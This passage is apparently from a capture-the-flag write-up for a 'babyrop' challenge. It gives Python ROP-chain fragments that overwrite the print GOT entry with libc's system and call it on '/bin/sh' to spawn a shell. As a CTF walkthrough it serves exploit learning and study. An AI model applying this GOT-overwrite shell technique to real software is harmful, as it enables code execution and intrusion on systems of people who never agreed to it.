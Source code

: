 
After set rbx and rbp values. Next phase updating the print GOT (0x404010) from 0x0x7ffff7e2ee21 to 0x7ffff7e03750.

> Re- Set rbx difference between system and libc_pop_rbx
> Re- Set rbp to 0x40404d
> Add ebx to RBP 

```python
        PRINT_CALL, # rerun for rax=r14=0
        0,
        0,
        SYSTEM-LIBC_POP_RBX, # new rbx
        0, # new r12
        0, # new r13
        0, # new r14
        0, # new r15
        0x404010+0x3d, # new rbp
        ADD_RPBs0x3d_EBX,
```


![0186a9a56b6c08d15a62f54996ccde77.png](/assets/images/SmileyCTF-babyrop/0186a9a56b6c08d15a62f54996ccde77.png)

The rest is simple. Preparing rbp-0x20 to `/bin/sh\0` and than call the `__libc_system` via print. Since we don't control over the rsi but the content of rsi doesn't bother the execution in this case.


```python
        ADD_RSP_8, # skip over /bin/sh
        0x0068732f6e69622f, # /bin/sh\0
        RET,
        RET,
        MOV_RBP_RSP_poprcx,
        0,
        PRINT_CALL
```
